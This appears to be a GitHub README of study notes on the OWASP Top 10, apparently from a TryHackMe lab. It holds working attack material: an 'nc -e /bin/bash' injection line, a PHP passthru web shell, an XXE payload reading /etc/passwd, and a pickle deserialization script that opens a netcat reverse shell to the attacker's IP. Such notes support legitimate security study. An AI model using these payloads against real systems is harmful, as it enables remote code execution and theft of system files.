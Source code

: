 # [OWASP Top 10](https://owasp.org/www-project-top-ten/2017/)

## [Injection:](https://owasp.org/www-project-top-ten/2017/A1_2017-Injection.html)

```shell
;nc -e /bin/bash
```

Or use  list of [these](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) reverse shells.

```php
<?php
    if(isset($_GET["commandString"])) {
        $command_string = $_GET["commandString"];

        try {
            passthru($command_string);
        } catch(Error $error) {
            echo "<p class=mt-3><b>$error</b></p>";
        }
    }
?>
```

## [Broken Authentication](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication.html)

## [Sensitive Data Exposure](https://owasp.org/www-project-top-ten/2017/A3_2017-Sensitive_Data_Exposure.html)

`sqlite3 <database-name>`: Access the database.

`.tables`: See the tables in the database.

`PRAGMA table_info(<table-name>);`: See the table information.

`SELECT * FROM <table-name>;`: Dump the information from the table.

## [XML External Entity](https://owasp.org/www-project-top-ten/2017/A4_2017-XML_External_Entities_(XXE).html)

- XML Syntax:

    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE note SYSTEM "note.dtd">
    <note>
        <to>falcon</to>
        <from>feast</from>
        <heading>hacking</heading>
        <body>XXE attack</body>
    </note>
    ```

- DTD Syntax:

    ```xml
    <!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)> <!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>
    ```

- XXE Payload Examples:

    ```xml
    <!DOCTYPE replace [<!ENTITY name "feast"> ]>
    <userInfo>
        <firstName>falcon</firstName>
        <lastName>&name;</lastName>
    </userInfo>
    ```

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
    <root>&read;</root>
    ```

## [Broken Access Control](https://owasp.org/www-project-top-ten/2017/A5_2017-Broken_Access_Control.html)

## [Security Misconfiguration](https://owasp.org/www-project-top-ten/2017/A6_2017-Security_Misconfiguration.html)

## [Cross-site Scripting](https://owasp.org/www-project-top-ten/2017/A7_2017-Cross-Site_Scripting_(XSS).html)

[XSS Payloads](http://www.xss-payloads.com/)

## [Insecure Deserialization](https://owasp.org/www-project-top-ten/2017/A8_2017-Insecure_Deserialization.html)

```py
cookie = {"replaceme":payload}

pickle_payload = pickle.dumps(cookie)
encodedPayloadCookie = base64.b64encode(pickle_payload)
resp = make_response(redirect("/myprofile"))
resp.set_cookie("encodedPayload", encodedPayloadCookie)
```

```py
cookie = request.cookies.get("encodedPayload")
cookie - pickle.loads(base64.b64decode(cookie))
```

```shell
nc -lvnp 4444
```

```py
import pickle
import sys
import base64

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat YOUR_TRYHACKME_VPN_IP 4444 > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))
```

## [Components With Known Vulnerabilities](https://owasp.org/www-project-top-ten/2017/A9_2017-Using_Components_with_Known_Vulnerabilities.html)

[ExploitDB](https://www.exploit-db.com/)

## [Insufficient Logging and Monitoring](https://owasp.org/www-project-top-ten/2017/A10_2017-Insufficient_Logging%2526Monitoring.html)